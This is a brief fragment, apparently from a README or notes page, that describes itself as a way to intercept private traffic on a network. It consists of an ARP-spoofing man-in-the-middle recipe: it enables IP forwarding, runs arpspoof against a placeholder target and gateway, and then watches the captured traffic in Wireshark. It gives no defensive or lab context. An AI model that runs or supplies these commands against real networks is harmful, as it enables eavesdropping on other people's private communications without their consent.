 Used to intercept private traffic in a network
```
echo 1 > /proc/sys/net/ipv4/ip_forward

set up wireshark

arpspoof -i INTERFACE -t TARGET_IP -r HOST_IP

look traffic in wireshark
```